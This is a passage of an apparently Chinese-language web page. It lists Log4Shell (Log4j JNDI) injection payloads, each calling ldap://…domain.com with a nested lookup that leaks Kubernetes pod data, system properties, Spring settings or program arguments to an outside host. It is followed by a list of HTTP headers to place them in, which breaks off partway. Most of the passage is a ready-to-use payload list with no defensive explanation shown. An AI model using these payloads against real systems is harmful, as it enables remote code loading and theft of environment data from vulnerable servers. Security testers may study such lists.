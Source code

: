<span class="token variable">${jndi:ldap://${k8s:podId}</span>.domain.com/j<span class="token punctuation">}</span>
<span class="token variable">${jndi:ldap://${k8s:podIp}</span>.domain.com/j<span class="token punctuation">}</span>
<span class="token variable">${jndi:ldap://${k8s:podName}</span>.domain.com/j<span class="token punctuation">}</span>
<span class="token variable">${jndi:ldap://${k8s:imageId}</span>.domain.com/j<span class="token punctuation">}</span>
<span class="token variable">${jndi:ldap://${k8s:imageName}</span>.domain.com/j<span class="token punctuation">}</span>
<span class="token variable">${jndi:ldap://${log4j:configLocation}</span>.domain.com/j<span class="token punctuation">}</span>
<span class="token variable">${jndi:ldap://${log4j:configParentLocation}</span>.domain.com/j<span class="token punctuation">}</span>
<span class="token variable">${jndi:ldap://${spring:spring.application.name}</span>.domain.com/j<span class="token punctuation">}</span>
<span class="token variable">${jndi:ldap://${main:myString}</span>.domain.com/j<span class="token punctuation">}</span>
<span class="token variable">${jndi:ldap://${main:0}</span>.domain.com/j<span class="token punctuation">}</span>
<span class="token variable">${jndi:ldap://${main:1}</span>.domain.com/j<span class="token punctuation">}</span>
<span class="token variable">${jndi:ldap://${main:2}</span>.domain.com/j<span class="token punctuation">}</span>
<span class="token variable">${jndi:ldap://${main:3}</span>.domain.com/j<span class="token punctuation">}</span>
<span class="token variable">${jndi:ldap://${main:4}</span>.domain.com/j<span class="token punctuation">}</span>
<span class="token variable">${jndi:ldap://${main:bar}</span>.domain.com/j<span class="token punctuation">}</span>
<span class="token variable">${jndi:ldap://${name}</span>.domain.com/j<span class="token punctuation">}</span>
<span class="token variable">${jndi:ldap://${marker}</span>.domain.com/j<span class="token punctuation">}</span>
<span class="token variable">${jndi:ldap://${marker:name}</span>.domain.com/j<span class="token punctuation">}</span>
<span class="token variable">${jndi:ldap://${spring:profiles.active[0].domain.com/j}</span>
<span class="token variable">${jndi:ldap://${sys:logPath}</span>.domain.com/j<span class="token punctuation">}</span>
<span class="token variable">${jndi:ldap://${web:rootDir}</span>.domain.com/j<span class="token punctuation">}</span>
</code></pre> 
 <p>可检查的标头</p> 
 <pre><code class="prism language-bash">Accept-Charset
Accept-Datetime
Accept-Encoding
Accept-Language
Authorization
Cache-Control
Cf-Connecting_ip
Client-Ip
Contact
Cookie
DNT
Forwarded
Forwarded-For
Forwarded-For-Ip
Forwarded-Proto
From
If-Modified-Since
Max-Forwards
Origin
Originating-Ip
Pragma